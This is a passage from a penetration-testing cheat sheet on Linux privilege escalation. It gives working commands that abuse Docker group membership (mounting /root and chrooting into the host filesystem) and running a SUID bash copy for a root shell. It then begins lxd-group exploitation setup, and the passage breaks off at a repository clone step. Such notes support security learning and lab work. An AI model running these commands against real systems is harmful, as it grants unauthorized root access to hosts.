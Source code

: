 * Run /tmp/rootbash with -p to gain a root shell `/tmp/rootbash -p`

### Docker Linux Local PE

```
id
```

* Check to see if the user is in the docker group

```
docker run hello-world
```

* Check to see if docker is installed and working correctly

```
docker run -v /root:/mnt alpine cat /mnt/key.txt
```

* `-v` specifies a volume to mount, in this case the /root directory on the house was mounted to the /mnt directory on the container. Because docker has SUID we were able to mount a root owned directory in our container

```
docker run -it -v /:/mnt alpine chroot /mnt
```

* Roots the host with docker because we used chroot on the /mnt directory. This allowed us to use the host operating system.

```
docker run -it ubuntu bash
```

* Optional: Run an ubuntu container with docker

### lxd Group Priv Esc

* The best example of how to do this&#x20;

[https://0xdf.gitlab.io/2020/11/07/htb-tabby.html](https://0xdf.gitlab.io/2020/11/07/htb-tabby.html)&#x20;

* Exploit without internet connection
* Change to the root user on attack box

```
sudo su
```

* Install Requirements on your attack box

```
sudo apt update
sudo apt install -y golang-go debootstrap rsync gpg squashfs-tools
```

* Clone the repo (attack box)

```
sudo go get -d -v github.com/lxc/distrobuilder
```
